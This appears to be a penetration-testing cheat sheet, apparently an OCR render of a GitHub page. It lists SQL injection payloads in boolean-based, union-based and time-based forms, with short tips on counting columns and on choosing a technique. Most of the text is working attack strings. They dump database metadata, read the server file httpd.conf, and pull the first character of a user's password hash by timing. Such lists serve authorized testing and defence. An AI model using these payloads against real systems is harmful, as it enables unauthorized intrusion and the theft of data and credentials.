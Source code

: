 
Boolean-based SQLi:

```fundamental
' OR 1=1-- 

' OR 1=2-- 
```

---

Union-based SQLi:

```fundamental
' UNION SELECT 1,2,3,4-- 

' UNION SELECT NULL,NULL,NULL,NULL-- 

' UNION SELECT 1,concat_ws('|',database(),current_user(),version()),3,4-- 

' UNION SELECT 1,concat_ws('|',table_schema,table_name,column_name,data_type,character_maximum_length),3,4 FROM information_schema.columns-- 

' UNION SELECT 1,load_file('..\\..\\apache\\conf\\httpd.conf'),3,4-- 
```

If using e.g. `1,2,3,4` does not work, try using `NULL,NULL,NULL,NULL` respectively.

Use the union-based SQLi only when you are able to use the same communication channel to both launch the attack and gather results.

The goal is to determine the exact number of columns in the application query and to figure out which of them are displaying to the user.

Another way to determine the exact number of columns is by using e.g. `' ORDER BY 1-- `, where `1` is the column number used for sorting - try incrementing it by one.

---

Time-based SQLi:

```fundamental
' AND (SELECT 1 FROM (SELECT sleep(2)) test)-- 

' AND (SELECT 1 FROM (SELECT CASE user() WHEN 'root@127.0.0.1' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT 1 FROM (SELECT CASE substring(current_user(),1,1) WHEN 'r' THEN sleep(2) ELSE sleep(0) END) test)-- 

' AND (SELECT CASE substring(password,1,1) WHEN '$' THEN sleep(2) ELSE sleep(0) END FROM users WHERE id = 1)-- 

' AND IF(version() LIKE '5%',sleep(2),sleep(0))-- 
```

Use the time-based SQLi when you are not able to see the results.

---